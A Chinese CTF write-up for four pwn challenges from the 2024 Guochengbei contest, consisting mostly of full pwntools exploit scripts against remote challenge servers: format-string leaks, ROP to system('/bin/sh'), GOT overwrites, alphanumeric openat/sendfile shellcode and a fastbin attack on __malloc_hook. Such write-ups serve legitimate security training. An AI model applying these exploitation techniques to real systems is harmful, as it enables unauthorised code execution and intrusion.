










# 2024国城杯pwn详细全解-先知社区

> **来源**: https://xz.aliyun.com/news/16043  
> **文章ID**: 16043

---

# Offensive\_Security

## 程序保护





这里看不出什么 要看给的附件



printf可以泄露出s2的值 同时也泄露出libc的信息 然后进入vuln这部分



依次执行这两个 程序 guess这个位置只要我们两次输入的东西一样就行



然后进入shell有个溢出 远程测出libc直接打就行

## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(8))
h164=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
filename = "./pwn"

elf = ELF(filename)
def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')


#初始化完成---------------------------------------------------------\

filename = "./pwn"
#mx = process(filename)
mx = remote("125.70.243.22",31370)
elf = ELF(filename)
libc=ELF('./libc.so.6')
sl(b'%7$s%39$p')
rl("Welcome, \n")

mima1=h64()
libc_addr=h164()-0x21b780

log_addr(mima1)
log_addr(libc_addr)
pause()
s(p64(mima1))
rl("[!] Please enter your authentication code: \n")
sl(b'111')
sl(b'111')
rl(">\n")
pop_rdi=0x0000000000400661
ret=0x0000000000400661+1
bin_sh=libc_addr+next(libc.search(b'/bin/sh\0'))

system=libc_addr+libc.sym['system']
payload=b'a'*0x28+p64(pop_rdi)+p64(bin_sh)+p64(ret)+p64(system)
s(payload)
inter()
```

# beverage\_store

## 程序保护


## 漏洞分析



通过溢出劫持seed 然后就可以绕过随机数检测




存在反向越界，可以修改got 这里的话 16一次有点恶心，我的思路是先修改exit\_got表为buy 无限次执行这个漏洞 再泄露libc地址 去修改printf\_got 为system地址 最后把exit改为后门地址

## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
import ctypes


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
#mx = process(filename)
mx = remote("125.70.243.22",31370)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------
# 加载C标准库
libc_1 = ctypes.CDLL("./libc.so.6")

# 设置种子
seed = 0x41414141
libc_1.srand(seed)

# 获取随机整数
random_number = libc_1.rand()
rl("input yours id\n")
sl(b'A'*0x10)
rl("Input yours id authentication code:\n")
sl(str(random_number))
sl(b'-4')
rl("which one to choose\n")
payload=p64(0x40133B)+p64(0x401511)
s(payload)
sl(b'-6')
rl("which one to choose\n")
s(b'a')
rl("succeed\n")
libc_addr=h64()-0x46061
log_addr(libc_addr)
libc.address=libc_addr
system=libc.sym['system']
sl(b'-7')
rl("which one to choose\n")
payload=p64(system)
s(payload)
sl(b'-4')
sleep(1)
payload=p64(0x401511)
s(payload)
inter()
```

# Alpha\_Shell

open read write 都被ban了 但是可以用openat 然后 r和w 可以用sendfile代替

## 漏洞分析





这里就是检测 字符的大小 在可见字符范围内 最后是call rdx执行我们输入的指令 由于读入0x150的字节是比较多的 而且寄存器是rdx 我们这里使用ae64 写orw进行一把梭

## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
from ae64 import AE64

#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx,'b *$rebase(0x15af)')

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
mx = process(filename)
mx = remote("125.70.243.22",31337)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\

rl("Radiant powers, deadly tech. Here we go!\n")

obj = AE64()
shellcode = asm('''
    mov rax,0x67616c662f
    push rax
    push 257
    pop rax
    mov rsi, rsp
    xor rdi, rdi
    xor rdx,rdx
    xor r10,r10
    syscall
    mov r10d, 0x100
    mov rsi, rax
    push 40
    pop rax
    push 1
    pop rdi
    xor rsi,rsi
    mov rsi,3
    xor rdx,rdx
    syscall
''')

enc_shellcode = AE64().encode(shellcode, 'rdx', 0, 'fast')


print(enc_shellcode)

s(enc_shellcode)

inter()
```

# vtable\_hijack

## 程序分析



## 漏洞分析

感觉是签到题 漏洞 太多了 uaf edit溢出漏洞 还是2.23版本的 直接 利用fast bin attack 去打malloc\_hook

直接给exp了

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
mx = process(filename)
mx = remote("125.70.243.22",31858)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def menu(num):
    rl("choice:\n")
    sl(str(num))
def add(num,size):
    menu(1)
    rl("index:\n")
    sl(str(num))
    rl("size:\n")
    sl(str(size))
def delete(num):
    menu(2)
    rl("index:\n")
    sl(str(num))
def edit(num,size,content):
    menu(3)
    rl("index:\n")
    sl(str(num))
    rl("length:\n")
    sl(str(size))
    rl("content:\n")
    sl(content)
def show(num):
    menu(4)
    rl("index:\n")
    sl(str(num))

add(0,0x200)
add(1,0x100)
delete(0)
show(0)
libc_addr=h64()-0x39bb78
log_addr(libc_addr)
libc.address=libc_addr
free_hook=libc.sym['__malloc_hook']-0x23
add(2,0x68)
add(3,0x50)
delete(2)
edit(2,0x20,p64(free_hook))
add(4,0x68)
add(5,0x68)
#0x3f3e6 0x3f43a 0xd5c07
edit(5,0x30,b'a'*0x13+p64(libc_addr+0xd5c07))
add(7,0x66)
inter()
```
